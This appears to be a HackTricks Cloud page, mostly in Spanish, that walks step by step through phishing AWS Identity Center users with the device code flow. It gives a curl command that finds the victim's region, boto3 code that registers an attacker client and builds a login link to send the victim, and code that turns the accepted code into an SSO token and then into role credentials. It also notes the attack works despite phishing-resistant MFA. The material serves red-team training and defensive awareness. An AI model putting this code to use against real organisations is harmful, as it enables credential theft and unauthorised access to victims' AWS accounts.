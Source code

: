 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Device Code Phishing

Inicialmente propuesto en [**este blog**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), es posible enviar un **enlace** a un usuario que utiliza AWS SSO que, si el **usuario acepta**, el atacante podrá obtener un **token para suplantar al usuario** y acceder a todos los roles a los que el usuario puede acceder en el **Identity Center**.

Para realizar este ataque, los requisitos son:

* La víctima necesita usar **Identity Center**
* El atacante debe conocer el **subdominio** utilizado por la víctima `<victimsub>.awsapps.com/start`

Solo con la información anterior, el **atacante podrá enviar un enlace al usuario** que, si es **aceptado**, otorgará al **atacante acceso a la cuenta** del usuario de AWS.

### Attack

1. **Finding the subdomain**

El primer paso del atacante es averiguar el subdominio que la empresa víctima está utilizando en su Identity Center. Esto se puede hacer a través de **OSINT** o **adivinando + BF**, ya que la mayoría de las empresas utilizarán su nombre o una variación de su nombre aquí.

Con esta información, es posible obtener la región donde se configuró el Identity Center:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Generar el enlace para la víctima y enviarlo**

Ejecuta el siguiente código para generar un enlace de inicio de sesión de AWS SSO para que la víctima pueda autenticarse.\
Para la demostración, ejecuta este código en una consola de python y no la cierres, ya que más tarde necesitarás algunos objetos para obtener el token:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Envía el enlace generado a la víctima utilizando tus increíbles habilidades de ingeniería social.

3. **Espera hasta que la víctima lo acepte**

Si la víctima **ya estaba conectada a AWS**, solo necesitará aceptar otorgar los permisos; si no lo estaba, necesitará **iniciar sesión y luego aceptar otorgar los permisos**.\
Así es como se ve el aviso hoy en día:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Obtén el token de acceso SSO**

Si la víctima aceptó el aviso, ejecuta este código para **generar un token SSO suplantando al usuario**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
El token de acceso SSO es **válido por 8h**.

5. **Suplantar al usuario**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing the unphisable MFA

Es divertido saber que el ataque anterior **funciona incluso si se está utilizando un "MFA inphishable" (webAuth)**. Esto se debe a que el **flujo de trabajo anterior nunca sale del dominio OAuth utilizado**. A diferencia de otros ataques de phishing donde el usuario necesita suplantar el dominio de inicio de sesión, en este caso, el flujo de trabajo del código del dispositivo está preparado para que un **código sea conocido por un dispositivo** y el usuario pueda iniciar sesión incluso en una máquina diferente. Si se acepta el aviso, el dispositivo, solo por **conocer el código inicial**, podrá **recuperar credenciales** para el usuario.

Para más información sobre esto [**consulta esta publicación**](https://mjg59.dreamwidth.org/62175.html).

### Automatic Tools

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## References

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
